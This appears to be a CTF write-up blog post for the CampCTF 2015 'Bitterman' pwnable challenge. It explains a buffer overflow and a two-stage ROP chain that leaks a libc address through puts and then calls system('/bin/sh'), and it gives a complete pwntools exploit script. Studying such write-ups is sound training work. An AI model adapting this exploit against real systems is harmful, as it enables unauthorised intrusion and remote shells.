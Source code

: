 ```yaml
---
layout: post
title:  "CampCTF 2015 - Bitterman"
date:   2015-08-18 18:03:59
categories: CTF Pwnable
---
```

Upon connecting, we are given a prompt which asks for the following items:

* Name
* Length of a message
* The message itself

As per normal, let's try the low hanging fruit of throwing lots of data at each field to see if we get a crash.

Turns out, if we say that we will send 1024 bytes and send 1024 bytes, we crash *shrug* (If there is time after the CTF, I'll go back and see what exactly caused the crash)

## Exploit

Because NX is turned on, we need to do some fancy ROP. Our ROP strategy is below:

* Leak a libc address via ROPing to `puts()` with `puts` as the parameter. 
    - This will return the address of `puts` in the libc the binary is using. 
    - We can calculate the libc base address since we were given their libc in the problem (leaked_libc_read_address - original_libc_from_challenge = base_libc_on_server)
* Call main so we can re-exploit with the knowledge of the libc base address.

This ROP construction is here:

```python
from pwn import *

elf = ELF('./bitterman')
rop = ROP(elf)

rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

print rop.dump()
```

Leaking the address from this ROP chain and rebasing the libc address in pwntools is below:

```python
# Be sure to add the zeros that we miss due to string read
# Grab the first 8 bytes of our output buffer
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')

# Convert to integer
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Rebase libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
```

From here, we can create a second ROP which will simply call `system` with `/bin/sh`. Luckily, `/bin/sh` is in libc, so we simply find where that string is, and call `system` with it.

The second ROP construction is below:

```python
# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

print rop2.dump()
```

Our shell is received and the flag is given:

```python
$ ls
bitterman
flag.txt
run.sh
$ cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80
```

## Final Exploit

```python

from pwn import *
import struct
context(arch='amd64')

r = process('./bitterman')
# r = remote('challs.campctf.ccc.ac','10103')

elf = ELF('./bitterman')
libc = ELF('libc.so.6')
# libc = ELF('libc-2.19.so')
rop = ROP(elf)

"""
gdb.attach(r, '''
bp 0x400704
''')
"""

print r.recv()

# raw_input()
### Stack address leaked when filling the name buffer to its max (64 bytes)
# r.sendline('a' * 64)
# leak = r.recv().split()[1][64:72]
r.sendline('')
r.recv()

r.sendline('1024')

####
# Leak read from GOT
# Call main to rethrow exploit with magic libc gadget
###
rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

log.info("ROP 1 - read( puts() from GOT); call main")
print rop.dump()

"""
RIP  0x4007e1 (main+245) <-- ret
[-------------------------------CODE-------------------------------]
=> 0x4007e1 <main+245>    ret    
[------------------------------STACK-------------------------------]
00:0000| rsp  0x7fffffffdaf8 <-- 'naaboaabpaabqaa...'
"""

shellcode = 'B' * (cyclic_find(unhex('6261616f')[::-1]) - 4)
# shellcode = 'B' * (cyclic_find('oaab') - 4)
shellcode += str(rop)

r.clean()
r.sendline(shellcode)

r.recvuntil('Thanks!')

log.info("Sending stage two")

# Be sure to add the zeros that we miss due to string read
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')
log.info("Leak: {}".format(repr(leaked_puts)))
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Reset libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
log.info('Libc address: {}'.format(hex(libc.address)))

# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

log.info("ROP 2:")
print rop2.dump()

r.clean()
raw_input('name')
r.sendline('')
raw_input('length')
r.sendline('1024')

shellcode = 'B' * (cyclic_find(unhex('6261616f')[::-1]) - 4)
shellcode += str(rop2)

raw_input('send?')
r.sendline(shellcode)

r.interactive()
```
